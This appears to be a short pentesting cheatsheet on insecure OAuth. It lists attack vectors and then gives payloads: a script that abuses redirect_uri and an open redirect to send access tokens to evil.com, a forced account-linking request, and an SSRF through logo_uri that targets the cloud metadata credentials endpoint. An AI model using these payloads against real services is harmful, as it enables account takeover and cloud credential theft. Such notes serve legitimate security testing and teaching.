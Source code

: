 ```yaml
---
title: Insecure OAuth
description: Insecure OAuth cheatsheet
---
```


# Insecure OAuth

## Definition

OAuth (Open Authorization) is a protocol that allows a user to grant third-party access to their resources without sharing their credentials. It is commonly used as a means of secure authentication and authorization for web applications, APIs, and other online services.

There are several potential attack vectors associated with OAuth, including:

- Phishing attacks: Attackers may try to trick users into granting access to their resources by disguising themselves as a legitimate OAuth provider and presenting a fake login or authorization prompt.
- Access token leakage: If an access token is leaked or stolen, an attacker may be able to gain unauthorized access to the protected resources. This can occur if the token is stored insecurely or transmitted over an unencrypted connection.
- Misuse of the authorization grant: Attackers may try to abuse the authorization grant by using it to access resources that were not intended to be shared, or by using the grant to perform actions that the user did not authorize.
- Resource owner impersonation: An attacker may try to impersonate the resource owner and gain access to their resources by manipulating the OAuth authorization process.
- Client impersonation: An attacker may try to impersonate a legitimate OAuth client and gain access to protected resources on behalf of the client.

To protect against these types of attacks, it is important to implement OAuth in a secure manner and to educate users about the potential risks associated with granting third-party access to their resources.

## Attacks

- Get valid token, and change username on auth request which goes to the client application, ex `POST /authenticate`
- Exploit redirect_uri to steal access token (whitelist bypass by exploiting an OpenRedirect on the client application)

```javascript
<script>
if (!document.location.hash) {
    window.location = 'https://example.com/auth?client_id=CLIENT_ID&redirect_uri=https://example.com/oauth-callback/../post/next?path=https://evil.com/&response_type=token&nonce=399721827&scope=openid%20profile%20email';
} else {
    window.location = '/?'+btoa(document.location);
}
</script>
```

- No state, force linking, `GET /oauth-linking?code=G6yRLEh0waXxTON0Xm5rLXC3dWScTqvn1Wd964vuvTR` drop request & send this to the victim, it will link OAuth your account to their main account
- Extract openID info `GET /.well-known/openid-configuration`, create a client register with logo `"logo_uri":"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"`, then dump logo `GET /client/<client_id>/logo`